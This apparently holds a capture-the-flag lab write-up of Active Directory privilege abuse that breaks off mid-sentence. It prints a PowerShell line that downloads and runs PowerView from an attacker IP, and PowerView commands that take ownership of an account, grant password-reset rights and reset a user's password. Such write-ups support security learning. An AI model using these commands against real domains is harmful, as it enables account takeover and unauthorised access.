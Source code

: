 
Now we know that Nico has write access to Herman.

Herman is having genric write and WriteDACL to Backup_Admin
![[Pasted image 20240514035852.png]]

If we search write owner in AD security (i.e. Scanning for Active Directory Privileges & Privileged Accounts) https://adsecurity.org/?p=3658

![[Pasted image 20240514040331.png]]

![[Pasted image 20240514040453.png]]

So in order to exploit this we have to load Power Viewer.
```
IEX (New-Object Net.Webclient).downloadstring("http://10.10.16.20:80/PowerView.ps1")
```


Now the very 1st step is to take ownership from Herman to Nico
```
Set-DomainObjectOwner -Identity Herman -OwnerIdentity nico -verbose
```

```
Add-DomainObjectAcl -TargetIdentity Herman -PrincipalIdentity nico -Rights ResetPassword -Verbose
```


So if now we run the Bloodhound we can see that we have the write owner as well as Force Password Change.
![[Pasted image 20240514042312.png]]

```
$pass = ConvertTo-SecureString 'PleaseSubscribe!' -AsPlainText -Force
```

So now let's try login with Herman
```
PleaseSubscribe!
```

Now will change the password
```
Set-DomainUserPassword Herman -AccountPassword $pass -verbose
```

So we are finally in 
![[Pasted image 20240514043326.png]]

How we have to make Herman a member of Backup_admin
![[Pasted image 20240514043417.png]]


```
Get-DomainGroup -MemberIdentity <User/Group>
```
https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993
![[Pasted image 20240514043644.png]]


```
Get-DomainGroup -MemberIdentity Herman | select samaccountname
```
![[Pasted image 20240514043838.png]]

I don
![[Pasted image 20240514044804.png]]